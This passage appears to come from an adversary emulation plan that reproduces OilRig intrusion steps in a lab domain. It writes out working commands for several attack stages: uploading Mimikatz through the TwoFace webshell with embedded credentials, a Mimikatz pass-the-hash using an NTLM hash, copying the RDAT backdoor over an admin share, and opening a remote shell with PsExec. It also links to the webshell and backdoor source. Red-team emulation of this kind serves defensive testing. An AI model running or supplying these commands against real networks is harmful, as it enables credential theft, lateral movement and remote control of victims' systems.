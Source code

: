 Redownload Mimikatz to `WATERFALLS (10.1.0.6)` as `mom64.exe`

```bash
# OilRig has saved Mimikatz to disk at mom64.exe

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\System32' -F "vir=false" -F "nen=mom64.exe" -F 'f1=@m64.exe' https://10.1.0.6/ews/contact.aspx
```

In the RDP to `WATERFALLS (10.1.0.6)`, open a new Command Prompt as 
Administrator, click yes to the UAC prompt, and execute Mimikatz PTH for `tous`

```bash
# OilRig has used Mimikatz

C:\Windows\System32\mom64.exe "privilege::debug" "sekurlsa::pth /user:tous /domain:BOOMBOX /ntlm:9b7ff4cc0878bee9f099a4a7dc7227c3" "exit"
```

In the new Command Prompt spawned by the Mimikatz pass the hash, copy RDAT to 
`ENDOFROAD (10.1.0.7)`

```bash
# OilRig has saved RDAT to disk as C:\Programdata\Nt.dat before moving and renaming it to C:\Programdata\Vmware\VMware.exe

copy C:\Windows\Temp\Nt.dat \\10.1.0.7\C$\ProgramData\
```

In the new Command Prompt spawned by Mimikatz pass the hash, PsExec to the SQL 
server `ENDOFROAD (10.1.0.7)`

```bash
# OilRig has used PsExec [11]

C:\Windows\System32\ps.exe \\10.1.0.7 cmd.exe
```

<br>

### :moyai: Source Code
:heavy_exclamation_mark: __NB__: Once again, TwoFace (contact.aspx) refers to the "downloads" from this section of the emulation procedure as "Abritrary Folder Upload(s)" in the source code.
* TwoFace Webshell download file to victim: [contact.aspx#L58-L115](../Resources/TwoFace/contact.aspx#L58-L115/)
  
<br>

*  RDAT backdoor: [RDAT](../Resources/RDAT/)
  
<br>

### :microscope: Cited Intelligence
*  RDAT: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  PSExec: https://unit42.paloaltonetworks.com/unit42-striking-oil-closer-look-adversary-infrastructure/
*  Mimikatz: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  Mimikatz: https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments
